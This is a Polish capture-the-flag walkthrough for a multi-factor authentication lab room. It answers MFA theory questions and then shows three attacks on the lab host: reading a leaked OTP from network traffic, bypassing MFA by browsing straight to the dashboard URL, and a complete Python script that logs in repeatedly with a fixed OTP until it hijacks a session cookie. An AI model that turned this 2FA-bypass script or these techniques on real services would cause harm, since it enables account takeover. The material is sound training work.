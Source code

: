 # Multi-Factor-Authentication

Witam, ten pokój będzie bardzo prosty, ponieważ ma jedynie 1 ćwiczenia praktyczne a reszta to teoria, zachęcam do zapozna się z teorią we własnym zakresie ponieważ byłoby to głupie kopiowanie wszystko tutaj.

1.Jak działa MFA

Task 1:Podczas logowania do aplikacji otrzymujesz SMS na swój telefon zawierający OTP. Jaki jest to czynnik uwierzytelniania?

```Może to być Twój telefon z aplikacją uwierzytelniającą, tokenem bezpieczeństwa, a nawet kartą inteligentną. Ostatnio obserwujemy częstsze stosowanie certyfikatów klienckich, które są jak cyfrowe karty identyfikacyjne dla urządzeń.``` - odpowiedźią będzie: Something you have

2.Implementacje i Aplikacje

Task 1: Czy uwierzytelnianie wieloskładnikowe jest ważnym czynnikiem chroniącym naszą aktywność online i offline przed zagrożeniami? (tak/nie)
```Uwierzytelnianie wieloskładnikowe ( MFA ) jest obecnie ważnym czynnikiem chroniącym nasze działania online i offline przed podmiotami stanowiącymi zagrożenie. Od bankowości i opieki zdrowotnej po korporacyjne IT, te branże w dużym stopniu polegają na MFA w celu zabezpieczenia danych przed atakującymi``` - odpowiedźią będzie: yea

3.Typowe luki w zabezpieczeniach MFA

Task 1:Co można zrobić, aby zapobiec atakom siłowym na hasła jednorazowe?
```Bez odpowiedniego ograniczenia szybkości aplikacja jest otwarta na ataki, aby bez problemu próbować różnych OTP. Jeśli atakujący może przesłać wiele prób w krótkim czasie, zwiększa to prawdopodobieństwo, że atakujący będzie w stanie uzyskać prawidłowy OTP.``` - odpowiedźią będzie: rate limiting

4.Ćwiczenie praktyczne - Wyciek OTP

Task 1: Co oznacza flaga na desce rozdzielczej?
Pierwszy krok to przejście na stronę http://mfa.thm/labs/first, następnie odpalennie narzędzi programistycznych (f12), przejście do zakładki networking. Kolejno wpisać adres email, hasło:
```
Nazwa użytkownika	  Hasło
thm@mail.thm	      test123
```

Logujemy się i w przechwyconym ruchu widzimy zakładkę mfa

![image](https://github.com/user-attachments/assets/98837d86-5535-41c1-9193-0e711ac02e2b)

I przechodząc w tą zakładkę uzyskujemy token, logujemy się i otrzymujemy flagę 

![image](https://github.com/user-attachments/assets/a0b6622d-fd9e-4795-b285-c871991266a5)

5.Praktyczne - Niepewne kodowanie

Task 1: Co oznacza flaga na desce rozdzielczej?

W pierwszej kolejności przechodzimy na podaną stronę: http://mfa.thm/labs/second/ 
```
Nazwa użytkownika	  Hasło
thm@mail.thm	      test123
```
Dane logowania możesz znaleźc powyżej.
Kod tej aplikacji jest popsut, możemy bez problemu ominąć podanie tego kodu, przechodząc do dashboard, manipulując adresem URL: ```http://mfa.thm/labs/second/dashboard``` - wyświetli nam się flaga na głównej stronie:

![image](https://github.com/user-attachments/assets/db344f68-5126-4280-9e98-9979946fd972)

6.Praktyczne – Pokonywanie funkcji automatycznego wylogowywania

Task 1:Co oznacza flaga na desce rozdzielczej?

Musimy użyć tego skryptu aby automatycznie za pomocą brute-force wymusił nam token uwierzytelniania, następnie jeśli próba się powiedzie, otrzymamy ```{'PHPSESSID': '2e7ddn3amfcng2eln0n7ifkhoc'}``` - dzięki temu w narzędzia programistycznych możemy podmienić nasz PHPSESSID i otrzymamy sesję użytkownika, który jest zalogowany.

```
import requests

# Define the URLs for the login, 2FA process, and dashboard
login_url = 'http://mfa.thm/labs/third/'
otp_url = 'http://mfa.thm/labs/third/mfa'
dashboard_url = 'http://mfa.thm/labs/third/dashboard'

# Define login credentials
credentials = {
    'email': 'thm@mail.thm',
    'password': 'test123'
}

# Define the headers to mimic a real browser
headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://mfa.thm',
    'Connection': 'close',
    'Referer': 'http://mfa.thm/labs/third/mfa',
    'Upgrade-Insecure-Requests': '1'
}

# Function to check if the response contains the login page
def is_login_successful(response):
    return "User Verification" in response.text and response.status_code == 200

# Function to handle the login process
def login(session):
    response = session.post(login_url, data=credentials, headers=headers)
    return response
  
# Function to handle the 2FA process
def submit_otp(session, otp):
    # Split the OTP into individual digits
    otp_data = {
        'code-1': otp[0],
        'code-2': otp[1],
        'code-3': otp[2],
        'code-4': otp[3]
    }
    
    response = session.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)  # Disable auto redirects
    print(f"DEBUG: OTP submission response status code: {response.status_code}")
    
    return response

# Function to check if the response contains the login page
def is_login_page(response):
    return "Sign in to your account" in response.text or "Login" in response.text

# Function to attempt login and submit the hardcoded OTP until success
def try_until_success():
    otp_str = '1337'  # Hardcoded OTP

    while True:  # Keep trying until success
        session = requests.Session()  # Create a new session object for each attempt
        login_response = login(session)  # Log in before each OTP attempt
        
        if is_login_successful(login_response):
            print("Logged in successfully.")
        else:
            print("Failed to log in.")
            continue

        print(f"Trying OTP: {otp_str}")

        response = submit_otp(session, otp_str)

        # Check if the response is the login page (unsuccessful OTP)
        if is_login_page(response):
            print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp_str}")
            continue  # Retry login and OTP submission

        # Check if the response is a redirect (status code 302)
        if response.status_code == 302:
            location_header = response.headers.get('Location', '')
            print(f"Session cookies: {session.cookies.get_dict()}")

            # Check if it successfully bypassed 2FA and landed on the dashboard
            if location_header == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return session.cookies.get_dict()  # Return session cookies after successful bypass
            elif location_header == '/labs/third/':
                print(f"Failed OTP attempt. Redirected to login. OTP: {otp_str}")
            else:
                print(f"Unexpected redirect location: {location_header}. OTP: {otp_str}")
        else:
            print(f"Received status code {response.status_code}. Retrying...")

# Start the attack to try until success
try_until_success()
```
Tak naprawdę to już tyle, jak wspominałem bardzo prosty pokój, mam nadzieje, że zdał Ci się na coś ten walktrought :)

